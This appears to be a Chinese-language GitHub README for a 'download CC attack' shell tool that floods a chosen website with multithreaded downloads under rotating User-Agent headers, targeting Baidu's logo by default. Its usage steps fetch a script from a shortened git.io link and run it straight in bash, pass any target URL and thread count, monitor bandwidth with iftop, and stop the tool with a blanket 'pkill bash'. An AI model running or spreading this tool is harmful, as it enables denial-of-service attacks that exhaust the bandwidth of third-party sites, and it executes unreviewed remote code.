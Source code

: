 ＃多线程刷流量 Download cc attack
  
  会自动更换UA头，多线程下载
  
##使用方法
  
  默认会刷百度logo
  
  wget -O dcc.sh git.io/Jftkm
  bash dcc.sh &
  
  如果需要改为别的地址可以这样
 
  wget -O dcc.sh git.io/Jftkm
  bash dcc.sh "https://www.baidu.com" &  #指定url
  bash oss.sh "https://www.baidu.com" 8 & #指定url和8线程
  
##查看使用流量（执行此命令起）

  apt install -y iftop && iftop -i eth0
  yum install -y iftop && iftop -i eth0
  
##如果网卡不是eth0可以改一下，看网卡名可以用这条命令
  apt insatll -y net-tools && ifconfig
  yum insatll -y net-tools && ifconfig

##结束命令
  pkill bash && pkill wget
